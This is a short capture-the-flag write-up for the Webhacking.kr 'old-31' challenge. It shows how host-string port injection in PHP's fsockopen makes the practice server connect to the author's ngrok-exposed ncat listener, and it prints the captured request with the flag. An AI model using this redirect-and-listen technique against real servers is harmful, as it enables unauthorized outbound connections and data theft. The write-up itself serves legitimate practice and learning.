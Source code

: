 ```yaml
---
layout: post
title: "[Webhacking.kr] Old-31 writeup"
categories: hacking writeup web
---
```


# Introduction
Link: [https://webhacking.kr/challenge/web-16/](https://webhacking.kr/challenge/web-16/)

![p1](/assets/images/old-31/p1.png)

# Bypassing port randomization
The killing point of this challenge is the randomization of the port (10000 to 10100). After a little bit of google'ing around, I found that the `fsockopen` function would accept the designated port in the first argument. Read further here: [https://vigilance.fr/vulnerability/PHP-connection-to-another-port-via-fsockopen-22262](https://vigilance.fr/vulnerability/PHP-connection-to-another-port-via-fsockopen-22262)

Now we can specify the port we want, we want the app to connect to somewhere we have control of. If you don't have a public IP, you can expose your local address using a reverse proxy.

In my case I'm using ngrok to expose my local server.

```
PS C:\Users\l4rzy> ngrok tcp 1984
```
![ngrok](/assets/images/old-31/ngrok.png)

Of course I need to listen on that port on another terminal tab.
```
PS C:\Users\l4rzy> ncat -l 1984
```

And let's connect to that public address:

![p2](/assets/images/old-31/p2.png)

```
PS C:\Users\l4rzy> ncat -l 1984
GET /FLAG{i_have_a_big_and_beautiful_server} HTTP/1.0
Host: 0.tcp.ngrok.io:17945
```

# Conclusion
Easy!